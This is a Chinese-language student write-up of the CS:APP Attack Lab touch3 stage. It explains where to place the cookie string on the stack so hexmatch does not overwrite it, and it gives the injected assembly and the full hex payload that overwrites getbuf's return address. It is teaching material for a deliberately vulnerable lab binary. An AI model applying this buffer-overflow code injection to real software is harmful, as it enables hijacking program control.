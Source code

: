 hexmatch中为变量cbuf开辟了128字节的栈区(0xff80=-128)，cbuf指向栈顶；指针s指向栈顶后100个字节中的随机某一个，并通过sprintf函数从该位置存储cookie值。（cookie变成16进制，并作为字符串传递，即把“59b997fa”写入s指向地址开始的栈区）

综上，为了解决该题，我们需要找个位置存储cookie字符串，并把sval指向我们自己写的cookie字符串。

##### 错误思路

考虑以下方法，若存到getbuf开辟的栈区（下图1位置），是不安全的，因为会被touch3和hexmatch函数给覆盖修改

若存到hexmatch函数的栈区之后（下图2位置），也不安全（经过验证，hexmatch执行完sprintf后，我们通过注入代码保存的cookie就消失了）。

![image-20240506230212642](./image_attack_lab(target)/image-20240506230212642.png)

##### 正确思路

可以考虑存到test函数废弃的栈区(图中3位置)。

touch3的参数与cookie比较  要保证touch3参数不能被hexmatch覆盖

![image-20240510143910361](./image_attack_lab(target)/image-20240510143910361.png)

```
cookie 0x59b997fa   
其ascii 35 39 62 39 39 37 66 61  "59b997fa"  存到$0x5561dca8


0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa   (touch3)
   c:	c3                   	retq   


```

```
48 c7 c7 a8 dc 61 55 68 
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00               	
00 00 00 00 00 00 00 00      
00 00 00 00 00 00 00 00                                 
78 dc 61 55 00 00 00 00     /* modify getbuf return adr ->5561dc78 */
35 39 62 39 39 37 66 61    /* cookie放入test栈区 */

```
